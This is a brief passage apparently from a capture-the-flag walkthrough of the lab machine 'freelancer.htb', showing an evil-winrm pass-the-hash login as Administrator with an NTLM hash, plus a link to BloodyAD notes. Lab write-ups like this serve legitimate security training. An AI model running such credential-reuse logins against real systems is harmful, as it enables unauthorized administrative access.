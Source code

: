 - Login with evil-winrm:

```bash
evil-winrm -i freelancer.htb -u Administrator -H 0039318f1e8274633445bce32ad1a290

```

![image51](../resources/0a67c81545a941328c968adc97d0aa4e.png)

- Using BloodyAD:
<https://notes.incendium.rocks/pentesting-notes/windows-pentesting/tools/bloodyad>


![image52](../resources/4f1c2a9516f9459b82f0cb8ee0864803.png)
